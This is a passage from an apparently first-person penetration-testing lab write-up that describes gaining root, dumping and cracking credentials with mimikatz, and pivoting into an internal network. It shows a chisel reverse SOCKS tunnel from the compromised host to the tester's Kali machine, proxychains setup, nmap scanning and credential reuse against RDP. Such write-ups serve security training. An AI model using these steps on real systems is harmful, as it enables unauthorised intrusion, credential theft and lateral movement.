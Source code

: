 So, I gained root privilege just like this because the target application is run by the system user:

![](img/5.png)

## Post enumeration on the first machine

After gaining root access, I did some usual post enumeration. `ipconfig` shows 2 IP addresses, which is a clear sign that I have to do something else because the machine is connected to another network.

### Port forwarding

I dumped the credentials on the machine (with root privilege) using `mimikatz` and successfully cracked an NTLM hash for the user "nicky". 

After that, I used `chisel` to do dynamic port forwarding, allowing my Kali machine to scan the host in the private network using the exploited machine as a pivot point:

```
# on kali
./chisel server -p 8000 --reverse
# transferred chisel.exe to the compromised machine and ran this
chisel.exe client <kali ip>:8000 R:socks
```

By default, dynamic port forwarding using `chisel` will use port 1080 on Kali, so I added this into my `/etc/proxychains4.conf`:

```
socks5 127.0.0.1 1080
```

*Note: If you don't understand what all these do, you just need to know that all my traffic will go through the compromised machine first (it acts as a proxy server). For instance, if I run `proxychains nmap -sT -Pn 10.1.1.1`, it will be sent to the compromised machine, then the compromised machine will send the traffic to `10.1.1.1`, any traffic returned will be sent to Kali.*

Then, I found a machine (nmap host discovery, `-sn`) with the hostname "nicky" (nmap default nmap scripts, `-sC` on port 3389, RDP). I reused the credential cracked previously to connect to the RDP port, but failed.

### Client enumeration

On the web application, the blog showed that the user "nicky" will check back on the added comments and he uses Firefox browser:
